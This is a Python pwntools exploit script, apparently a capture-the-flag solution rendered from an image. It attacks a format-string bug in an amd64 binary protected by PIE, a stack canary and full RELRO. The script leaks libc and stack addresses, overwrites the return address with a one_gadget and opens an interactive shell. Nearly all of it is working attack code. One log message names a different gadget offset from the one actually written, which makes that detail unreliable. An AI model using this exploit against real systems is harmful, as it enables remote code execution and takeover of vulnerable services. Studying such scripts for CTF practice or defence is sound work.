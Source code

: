 ```python
        p = process([exe.path] + argv, *a, **kw)
        # print the pid so I can attach a debugger
        print(p.pid)
        input()
        return p
    else:
        return process([exe.path] + argv, *a, **kw)

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(host, port)

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

io = start()

pl = b'%19$lx ' # libc.sym['__libc_start_main'] + 231
pl += b'%6$lx ' # stack, ret - 0x68

# pad to max size
pl += b'A'*0x40
pl = pl[:0x40 - 1] # -1 for the newline/null

log.info(f'sending first payload {repr(pl)}')

io.send(pl)

# parse leaks
res = io.recv().decode()
addrs = [int(x, 16) for x in res.split(' ')]

# calculate addresses from leaks and offsets
libc.address = addrs[0] - 231 - libc.sym['__libc_start_main']
ret_addr = addrs[1] + 0x48

log.info(f'libc at: {hex(libc.address)}')
log.info(f'ret at: {hex(ret_addr)}')

writes = {ret_addr: libc.address + 0x10a38c} # go to one_gadget
pl = fmtstr_payload(8, writes, write_size='short') # our input is at 8th qword

# pad to max size
pl += b'A'*0x40
pl = pl[:0x40 - 1] # -1 for the newline/null

log.info(f'sending second payload {repr(pl)}')
log.info(f'writing {hex(libc.address + 0x4f365)} to {hex(ret_addr)}')

io.send(pl)

# first give one random input to finish the loop and return to a shell
io.interactive()
```